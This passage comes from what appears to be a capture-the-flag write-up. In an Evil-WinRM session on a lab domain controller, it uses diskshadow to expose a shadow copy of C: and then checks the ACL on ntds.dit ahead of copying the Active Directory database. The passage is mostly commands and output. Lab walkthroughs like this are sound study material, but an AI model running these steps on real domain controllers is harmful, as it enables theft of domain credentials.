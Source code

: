 ## Upload the text file and run diskshadow.exe

```powershell 
*Evil-WinRM* PS C:\Users\lparker\Documents> mkdir C:\tmp

*Evil-WinRM* PS C:\Users\lparker\Documents> cd C:\tmp

*Evil-WinRM* PS C:\tmp> upload diskshadow.txt

*Evil-WinRM* PS C:\tmp> diskshadow.exe /s .\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  FUSION-DC,  6/16/2021 9:59:14 AM

-> set metadata C:\tmp\tmp.cabs
The existing file will be overwritten.
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {03bac256-2745-48c7-9f19-0a379974378a} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2e386201-c4c3-40e2-bd38-684f8bf0be50} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2e386201-c4c3-40e2-bd38-684f8bf0be50}

        * Shadow copy ID = {03bac256-2745-48c7-9f19-0a379974378a}               %someAlias%
                - Shadow copy set: {2e386201-c4c3-40e2-bd38-684f8bf0be50}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{66a659a9-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 6/16/2021 9:59:15 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
                - Originating machine: Fusion-DC.fusion.corp
                - Service machine: Fusion-DC.fusion.corp
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% z:
-> %someAlias% = {03bac256-2745-48c7-9f19-0a379974378a}
The shadow copy was successfully exposed as z:\.
```

## Permission block!

As with any ctfs, life simply can't be that easy otherwise what's the point? When we try to copy the backup NTDS.dit we can't due to insufficient privileges as shown below:

```powershell
*Evil-WinRM* PS C:\tmp> get-acl Z:\windows\ntds\ntds.dit |fl


Path   : Microsoft.PowerShell.Core\FileSystem::Z:\windows\ntds\ntds.dit
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:AI(A;ID;FA;;;SY)(A;ID;FA;;;BA)
```
